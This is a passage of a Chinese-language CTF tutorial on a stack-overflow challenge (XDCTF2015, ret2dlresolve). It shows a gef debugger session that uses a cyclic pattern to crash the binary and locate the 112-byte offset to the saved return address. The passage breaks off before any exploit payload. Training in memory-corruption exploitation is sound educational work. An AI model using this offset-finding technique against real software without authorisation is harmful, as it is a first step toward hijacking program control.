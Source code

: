 #### 正常攻击

显然我们程序有一个很明显的栈溢出漏洞的。这题我们不考虑我们有libc的情况。我们可以很容易的分析出偏移为112。

```asm
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
[+] Saved as '$_gef0'
gef➤  r
Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main
Welcome to XDCTF2015~!
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0x000000c9
$ebx   : 0x00000000
$ecx   : 0xffffcc6c  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
$edx   : 0x00000100
$esp   : 0xffffcce0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
$ebp   : 0x62616163 ("caab"?)
$esi   : 0xf7fac000  →  0x001b1db0
$edi   : 0xffffcd50  →  0xffffcd70  →  0x00000001
$eip   : 0x62616164 ("daab"?)
$cs    : 0x00000023
$ss    : 0x0000002b
$ds    : 0x0000002b
$es    : 0x0000002b
$fs    : 0x00000000
$gs    : 0x00000063
$eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
['0xffffcce0', 'l8']
8
0xffffcce0│+0x00: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"	 ← $esp
0xffffcce4│+0x04: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
0xffffcce8│+0x08: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
0xffffccec│+0x0c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
0xffffccf0│+0x10: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
0xffffccf4│+0x14: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
0xffffccf8│+0x18: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
0xffffccfc│+0x1c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search
```